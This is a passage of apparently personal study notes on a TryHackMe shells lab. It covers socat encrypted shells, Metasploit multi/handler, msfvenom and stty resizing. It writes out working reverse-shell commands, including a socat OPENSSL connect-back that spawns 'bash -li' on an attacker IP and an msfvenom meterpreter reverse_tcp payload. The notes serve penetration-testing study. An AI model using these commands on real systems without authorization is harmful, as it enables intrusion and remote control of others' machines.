 Attacker:

```ZSH
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

* Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![openssl](https://i.imgur.com/UbOPN9q.png)

### THM-Questions ###

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

* Answer: `socat openssl-listen:53,cert=encrypt.pem,file:`tty`:verify,raw,echo=0`

1. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

* Answer: `socat openssl:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### 3. Metasploit ###

* The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, `multi/handler` provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads -- both of which we will look at in task 9.

### 4. Msfvenom ###

> Syntax: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe`

* Like multi/handler, `msfvenom` is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room. Msfvenom is an incredibly powerful tool, so we will go into its application in much more detail in a dedicated task.

> With any of the above techniques,

* It's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.
* First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:
* Next, in your reverse/bind shell, type in:

```ZSH
stty rows <number>

and

stty cols <number>
```
